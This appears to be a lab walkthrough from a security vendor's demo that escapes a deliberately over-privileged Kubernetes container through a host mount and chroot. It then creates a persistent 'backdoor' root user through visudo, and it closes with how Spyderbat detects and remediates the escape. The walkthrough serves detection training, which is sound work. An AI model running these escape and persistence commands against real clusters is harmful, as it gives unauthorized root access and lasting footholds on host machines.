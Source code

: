 # Container Escape Using Chroot

## Running the Exploit

> This exploit is based on <a href="https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-4/container-escape-to-the-host-system-in-kubernetes-containers/welcome" target="_blank">a Kubernetes Goat scenario</a>, updated to be compatible with modern Kubernetes.

One of the assets we have added to the cluster is a system monitor that has more permissions than is really necessary. To start, use `kubectl exec` to access the container.

```sh
kubectl exec -it -n chroot $(kubectl get pods -n chroot -o jsonpath='{.items[0].metadata.name}') -- /bin/bash
```


Ideally, this shell is restricted to the container. However, running `mount` reveals that there is a link to the host system:

```sh
mount | grep 'host' | head
```

At the top of the mount entries, there is a `/host-system` folder that seems to link to the host machine.

```
tmpfs on /host-system type tmpfs (rw,relatime,size=7318352k)
# ...
```
```sh
ls /host-system/
```
```
CHANGELOG  bin  boot  data  dev  etc  home  hosthome  init  lib  lib64  libexec  linuxrc  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  version.json
```

Additionally, running `capsh` shows that we have the chroot permission, allowing us to change our root to act like we are in the host system:

```sh
capsh --print | grep chroot
```

```sh
chroot /host-system bash
```

Now, we are in the root of the host system, which gives us all kinds of access. For this exercise, let's take a look at the running pods and containers with `crictl`, then create persistence with a new user.

`crictl` is an alternative command-line control to docker that integrates with Kubernetes. To start, let's use it to list the available pods:

```sh
crictl pods
```

If you installed the Falco integration, you should see:

```
POD ID              CREATED             STATE               NAME                                         NAMESPACE           ATTEMPT             RUNTIME
...
3d7d82e569d3a       About an hour ago   Ready               falco-8tg8k                                  falco               3                   (default)
6d3463aca3379       About an hour ago   Ready               falco-falcosidekick-6f7996c855-s48w6         falco               3                   (default)
b7897f1847274       About an hour ago   Ready               falco-falcosidekick-6f7996c855-nfnd7         falco               3                   (default)
...
```

Let's look at the containers that are named Falco:

```sh
crictl ps --name falco
```
```
CONTAINER           IMAGE               CREATED             STATE               NAME                       ATTEMPT             POD ID              POD
0a86211354518       f26819a025370       About an hour ago   Running             falcoctl-artifact-follow   3                   3d7d82e569d3a       falco-8tg8k
a7e18aca478f0       5d7f6e3db4150       About an hour ago   Running             falco                      3                   3d7d82e569d3a       falco-8tg8k
1cc6683c7aee4       e3197d6b0c4c7       About an hour ago   Running             falcosidekick              3                   b7897f1847274       falco-falcosidekick-6f7996c855-nfnd7
2a6b72c464d75       e3197d6b0c4c7       About an hour ago   Running             falcosidekick              3                   6d3463aca3379       falco-falcosidekick-6f7996c855-s48w6
```

At this point, we could exec into one of these containers and investigate logs or API keys, but for now, let's move on to creating persistence. To do this, we will create a new user:

```sh
adduser backdoor
```
```
New password: hackme
Bad password: too weak
Retype password: hackme
passwd: password for backdoor changed by root
```

Next, we need to give the backdoor user permissions to use `sudo` so that they can get root access:

```sh
visudo
```

Move to the bottom of the file, press `o` to open a new line, then add the `backdoor` line like this:

```
root ALL=(ALL) ALL
%wheel ALL=(ALL) NOPASSWD: ALL
backdoor ALL=(ALL) NOPASSWD: ALL
```

Press Escape and type `:wq` to write and quit. Now, we can test our new user:

```sh
su - backdoor
sudo -l
```

```
User backdoor may run the following commands on system-monitor-deployment-5d49dd76b9-dmbqs:
    (ALL) NOPASSWD: ALL
```

From here, we could then install ssh keys for the backdoor user.

In summary, we gained access to a vulnerable Kubernetes container, then exploited its excessive access to gain root privileges on the host machine. From there, we were able to access the entire Kubernetes cluster on this node and create a backdoor user with root access for persistence.


## Investigating the Results

Performing this exploit will trigger a number of red flags which are detected and collected into a single Spydertrace object. In the Spyderbat Console, navigate to the Dashboard page. In the Security tab, under "Recent Spydertraces with Score > 50", a new trace should appear, likely named "root_shell", or "container_escape_using_chroot...". Expanding the group name should show that it has an extremely high score of over 200, indicating a large number of linked high-severity flags. Selecting this Spydertrace, we can select "Start Process Investigation" to see the events of the exploit layed out in a Causal Tree in the investigation view:

![A section of the Spydertrace featuring one of my chroot commands](./chroot_flag_graph.png)

Here, we can clearly see the interactive shell, running the `chroot` command, and later investigating with `crictl` and creating persistence with `adduser` and `visudo`.

## Next Steps

Now that the vulnerable container has been identified and the backdoor user found, steps can be taken to end the existing access, update the pod configuration to remove the possibility of a chroot, and remove the new user from the cluster host machine to prevent the attacker from regaining access.

